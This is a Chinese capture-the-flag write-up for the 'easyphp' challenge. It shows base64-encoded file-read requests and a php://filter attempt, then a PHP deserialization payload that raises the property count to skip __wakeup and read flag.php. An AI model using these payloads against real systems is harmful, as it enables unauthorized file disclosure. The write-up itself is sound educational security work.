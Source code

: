 # 网络内生安全试验场——CTF答题夺旗赛（第二季）

# easyphp

## Analyze

查看网页源码

	<html>
		<head>
		</head>
		<body>
			<img src="show.php?img=aGludC5qcGc=" width="100%">
		</body>
	</html>

访问页面时发现有一张图片，查看图片地址

	http://120.55.43.255:13005/show.php?img=aGludC5qcGc=

`aGludC5qcGc=`base64解码得到`hint.jpg`，由此可以得知`show.php`是将参数`img`经base64解码得到的值进行读文件操作。

尝试使用

	php://filter/read=convert.base64-encode/resource=index.php

base64解码值读取源码

	http://120.55.43.255:13005/show.php?img=cGhwOi8vZmlsdGVyL3JlYWQ9Y29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc291cmNlPWluZGV4LnBocA==

返回"File not found!"。。。

## Get Source

纠结了一下下，不知道是怎么回事，然后又尝试直接将`index.php`base64编码，可看到注释掉的php源码，居然成功了，看来是想复杂了。

上源码：

index.php

	<?php 
	  require_once('hint.php');
	  $x = new hint();
	  isset($_GET['class']) && $g = $_GET['class'];
	  if (!empty($g)) {
	    $x = unserialize($g);
	    echo $x;
	  }
	?>

发现hint.php

	<?php
	  error_reporting(0);
	  //flag is in flag.php
	  class hint
	  { 
	    public $file='';
	    function __destruct()
	    { 
	      if(!empty($this->file)) 
	      {
	       if(strchr($this-> file,"\\")===false &&  strchr($this->file, '/')===false)
	          show_source(dirname (__FILE__).'/'.$this ->file);
	       else      die('Wrong filename.');
	      }
	    }  
	    function __wakeup(){ 
	      $this-> file='index.php'; 
	    } 
	    public function __toString(){
	      return '' ;
	    }
	  } 
	?>

源码中的注释部分提示flag在flag.php中

想尝试用show.php直接读取flag.php，分析show.php：

	<?php
	  $f = $_GET['img'];
	  if (!empty($f)) {
	    $f = base64_decode($f);
	    if (stripos($f,'..')===FALSE && stripos($f,'/')===FALSE && stripos($f,'\\')===FALSE
	    && stripos($f,'flag')===FALSE) {
	      readfile($f);
	    } else {
	      echo "File not found!";
	    }
	  }
	?>

发现`flag`被过滤了，而且`/`也被绕过了，这也是为什么之前使用`php://filter`出错的原因。

尝试绕过，不过过滤比较严格，绕过有点难度，转而分析其他两个文件。

## Unserialize

涉及到**反序列化**：`$x = unserialize($g);`,发现在hint.php中

	function __destruct()
    { 
      if(!empty($this->file)) 
      {
       if(strchr($this-> file,"\\")===false &&  strchr($this->file, '/')===false)
          show_source(dirname (__FILE__).'/'.$this ->file);
       else      die('Wrong filename.');
      }
    } 

存在文件读取，可以构造**Payload**使得`$this-> file = "flag.php"`，由

	<?php
	  error_reporting(0);
		//flag is in flag.php
		class hint{ 
	    public $file='';
	    function __destruct(){ 
	      if(!empty($this->file)) {
	       if(strchr($this-> file,"\\")===false &&  strchr($this->file, '/')===false)
	          show_source(dirname (__FILE__).'/'.$this ->file);
	       else      die('Wrong filename.');
	      }}  
	    function __wakeup(){ $this-> file='index.php'; } 
	    public function __toString(){return '' ;}
	  } 
	  $a = new hint();
	  $a->file = "flag.php";
	  echo serialize($a);

得到字符串 `O:4:"hint":1:{s:4:"file";s:8:"flag.php";}`，但是这样并不能读取到flag.php文件，因为在序列化时，`__wakeup()`函数又会将`"index.php"`赋值给`$this-> file`.

这里涉及的另一个知识，是php本身的一个bug，详细信息可以查询[`php bug 72663`](https://www.baidu.com/s?wd=php%20bug%2072663)，这个 bug 的原理是：当反序列化字符串中，表示**属性个数的值大于真实属性个数**时，会跳过`__wakeup` 函数的执行。

于是将hint值改为2

![](https://raw.githubusercontent.com/f61d/challenges/master/web/PHP/ichunqiuCTF_easyphp/index_files/ichunqiuCTF_easyphp.png)

Payload：

	http://120.55.43.255:13005/index.php?class=O:4:"hint":2:{s:4:"file";s:8:"flag.php";}


